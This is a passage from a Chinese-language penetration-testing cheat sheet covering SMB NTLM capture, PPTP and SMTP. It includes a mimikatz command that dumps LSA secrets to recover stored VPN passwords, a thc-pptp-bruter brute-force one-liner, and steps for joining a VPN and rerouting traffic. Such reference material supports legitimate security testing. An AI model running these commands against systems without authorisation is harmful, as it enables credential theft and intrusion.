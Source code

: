 **利用 NTLM 值破解 SMB**

主要依靠钓鱼,不是很适合在实战中使用,内容见 https://www.hackingarticles.in/4-ways-capture-ntlm-hashes-network/

---

## PPTP

**相关文章**
- [渗透技巧——PPTP口令的获取与爆破](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-PPTP%E5%8F%A3%E4%BB%A4%E7%9A%84%E8%8E%B7%E5%8F%96%E4%B8%8E%E7%88%86%E7%A0%B4/)

**获得PPTP 口令**

Windows系统拨号和宽带连接的配置信息存储在固定位置，路径如下： `%APPDATA%\Microsoft\Network\Connections\Pbk\rasphone.pbk` 查看该文件即可获得 PPTP 连接的配置信息，包括服务器 IP，不包含连接用户名和口令

```
mimikatz.exe privilege::debug token::elevate lsadump::secrets exit
```

**windows 命令行下连接 PPTP VPN**
```
rasdial "VPN Connection" username pass

# 关闭连接
rasphone -h "VPN Connection"
```

**kali 连接 PPTP VPN**
```bash
pptpsetup --create vpn --server xx.xx.xx.xx --username username --password pass --encrypt --start

# 将默认路由表修改为远程
route del default
route add default gw xx.xx.xx.xx
```

**暴力破解 PPTP 口令**

- 相关工具
    - [BlackArch/thc-pptp-bruter](https://github.com/BlackArch/thc-pptp-bruter) - kali 默认自带
        ```
        cat wordlist | thc-pptp-bruter -u username xx.xx.xx.xxx
        ```
    - [pptp_password_hack.py](https://github.com/3gstudent/Homework-of-Python/blob/master/pptp_password_hack.py)

---

## SMTP

**描述**

SMTP 为邮件协讫,默认端口 25.经常用来邮箱伪造,钓鱼攻击.

**相关文章**
- [SMTP 协议 25 端口渗透测试记录](https://www.sqlsec.com/2017/08/smtp.html)
